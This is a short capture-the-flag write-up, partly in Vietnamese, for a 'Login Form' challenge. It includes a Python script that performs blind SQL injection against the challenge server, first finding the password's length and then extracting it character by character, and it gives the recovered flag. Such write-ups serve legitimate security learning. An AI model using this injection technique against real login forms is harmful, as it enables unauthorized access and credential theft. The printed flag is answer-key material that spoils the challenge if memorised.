


## [Login Form](https://ctf.viblo.asia/puzzles/login-form-ebfvssjqfr5)


Thử 1 payload sqli đơn giản thì xuất hiện thông báo => có lỗi sqli






Mình có viết 1 đoạn python đơn giản để tìm password thông qua sqli

```python
import requests
import string

def go(url,payload):
	r = requests.post(url,data=payload)
	return r.text

print """
@Get length password
"""
length = 0
for i in xrange(1,100):
	payload = {"login":"","username":"flag' AND LENGTH(password)={}-- -".format(i),"password":"123"};
	ans = go("http://172.104.49.143:1323/",payload);
	if "Success" in ans:
		length = i
		print length
		break
	else:
		continue
print """
@Get password
"""
query = 'Flag'
while True:
	if len(query) == 35:
		break
	for i in (string.printable).replace("%","").replace("_",""):
		payload = {"login":"","username":'flag\' AND password LIKE BINARY "{}%"-- -'.format(query + i),"password":"1"};
		ans = go("http://172.104.49.143:1323/",payload);
		if "Success" in ans:
			query += i
			print query
			break
		else:
			print i
			continue
```

`Flag{Bl1nd_Sql_Inj3cti0n_V3ry_3asy}`